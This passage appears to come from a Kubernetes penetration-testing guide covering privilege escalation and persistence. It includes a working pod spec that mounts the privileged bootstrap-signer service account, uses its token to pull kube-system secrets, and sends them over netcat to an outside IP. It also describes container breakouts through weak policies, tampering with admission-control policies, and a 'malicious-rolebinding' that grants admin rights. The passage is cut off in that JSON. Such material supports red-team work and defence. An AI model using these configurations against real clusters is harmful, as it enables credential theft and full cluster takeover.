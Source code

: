 Note - it's also worth checking pod specs, configmaps and secrets for other sensitive information such as SSH keys, OAuth tokens, credentials and URLS for other services may also be stored within kubernetes secrets.

### Create Pods/Deployments/Daemonsets
If you have permission to create pods (directly or via deployments and daemonsets etc) you can attempt to create a pod and mount a privileged service account to the pod either sending the token or capturing a reverse shell to escalate privileges.

An example podSpec mounting the privileged `bootstrap-signer` service account:
```
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```
### Weak PSPs / Security Controls
If there are permissive PSPs (or other policy controls) or you have sufficient privileges you may be able to create a pod that mounts a vulnerable hostpath or assigns extra linux capabilties in order to perform a container breakout or escalate privileges.

If they are using a custom security/admission controler such as OPA/Gatekeeper you may be able to gain access to the policies (via discovering authentication tokens or misconfigured authentication) to create permissive policies to deploy vulnerable pods

If you are able to deploy a daemonset you will get a copy of the pod on each node (you may have to specify taints and tolerations to get it on certain nodes - https://kubernetes.io/docs/concepts/scheduling-eviction/taint-and-toleration/) if you're able to deploy a vulnerable pod and breakout, each node may have different privileges - if you are able to breakout onto a master node or access etcd you will have full access to the cluster.

### Create Roles/Bindings
If you have the permission to create rolebindings you can assign extra permissions to yourself or entities under your control. You can also create new roles for persistence.
Example clusterrolebinding for getting cluster-admin
```
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "malicious-rolebinding",
        "namespaces": "default"
    },
    "roleRef": {
        "apiGroup": "*",
        "kind": "ClusterRole",
        "name": "admin"
    },
    "subjects": [
        {
            "kind": "ServiceAccount",
```